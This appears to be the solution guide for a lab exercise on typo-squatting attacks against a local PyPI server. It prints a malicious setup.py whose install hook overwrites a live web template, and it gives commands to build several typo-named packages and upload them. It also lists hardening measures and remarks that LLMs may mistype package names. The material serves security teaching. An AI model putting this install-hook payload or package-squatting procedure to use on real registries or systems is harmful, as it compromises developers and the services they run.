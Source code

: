 ### Solution Guide — ex3: Typo-squatting to modify a live server file

#### Overview
The developer works directly in a production-like environment. When they mistype `flower_power` (f → a/b/c/d/e), they may install a typo-squatted package from the local PyPI. Our malicious package (`alower_power`) runs code during installation that overwrites the running app’s homepage template, clearly demonstrating impact.

#### What the attack does
- Package name: `alower_power` (typo of `flower_power`).
- On install, a custom `install` hook writes to `/app/templates/index.html`, first saving a backup at `/app/templates/index.html.bak`.
- Because the web container serves files from `/app`, the change appears immediately in the UI.

The core of the malicious logic lives in `solution/malicious-packages/alower_power/setup.py`:

```1:60:w2d3/exercises/ex3/solution/malicious-packages/alower_power/setup.py
from setuptools import setup
from setuptools.command.install import install
import os

class MaliciousInstall(install):
    def run(self):
        try:
            target_file = "/app/templates/index.html"
            backup_file = target_file + ".bak"
            HACKED_HTML = """<!DOCTYPE html>... (defaced page HTML) ..."""
            if os.path.exists(target_file) and not os.path.exists(backup_file):
                with open(target_file, "rb") as fsrc:
                    data = fsrc.read()
                with open(backup_file, "wb") as fdst:
                    fdst.write(data)
            os.makedirs(os.path.dirname(target_file), exist_ok=True)
            with open(target_file, "w", encoding="utf-8") as f:
                f.write(HACKED_HTML)
        except Exception:
            pass
        super().run()
```

#### Build the malicious package

```sh
cd w2d3/exercises/ex3/solution/malicious-packages/alower_power
python3 setup.py sdist
```

This creates `dist/alower_power-<version>.tar.gz`.

Optionally, duplicate this directory and rename for other nearby typos (`blower_power`, `clower_power`, `dlower_power`, `elower_power`) and rebuild each:

```sh
# Create additional typo-squatted packages
cd w2d3/exercises/ex3/solution/malicious-packages/
for typo in blower_power clower_power dlower_power elower_power; do
    cp -r alower_power $typo
    cd $typo
    # Update package name in setup.py
    sed -i "s/alower_power/$typo/g" setup.py
    python3 setup.py sdist
    cd ..
done
```

#### Upload to the local PyPI server using twine

Since students don't have direct access to Docker containers, use `twine` to upload the malicious package to the local PyPI server:

```sh
# First, make sure the PyPI server is running
cd w2d3/exercises/ex3/exercise
docker-compose up --build

# Upload the malicious package(s) using twine
cd ../solution/malicious-packages/

# Upload the main typo-squatted package
cd alower_power
twine upload --repository-url http://localhost:8080 dist/* -u ""  -p "" --verbose
```

The PyPI server should now serve the typo-squatted package alongside any legitimate packages.

#### What you should see
- Developer logs showing random c
ommands like `pip install alower_power ...`.
- When the typo hits `a`, install succeeds and the home page is defaced.
- Visit `http://localhost:5000`. The page shows the hacked banner.
- `GET /status` (or the “Refresh Status” button) lists any installed typo packages under “Typo-Squatting Packages Detected”.

Note: The malicious package will remain on the PyPI server until it's manually removed or the server is reset. In a real scenario, you would need administrative access to remove packages from PyPI.

#### Why this works
- The developer works “in production”: installing packages affects the live filesystem mounted by the web server.
- A typo-squatted package name avoids strict version pinning on `flower_power`.
- The `install` hook is a powerful execution point that runs with the privileges of the installer.

#### Hardening ideas
- Enforce allow-lists for package names and repositories.
- Use lockfiles/constraints and CI-only builds (no dev in prod).
- Disable arbitrary build/install scripts (PEP 517 isolated builds, `--only-binary=:all:` when possible).
- Use content trust/signing and SLSA provenance.

Typo squatting is even more of a concern as LLMs become more used in the development process. They are now used to install packages and it's easy to imagine them hallucinating package names or doing small typos.
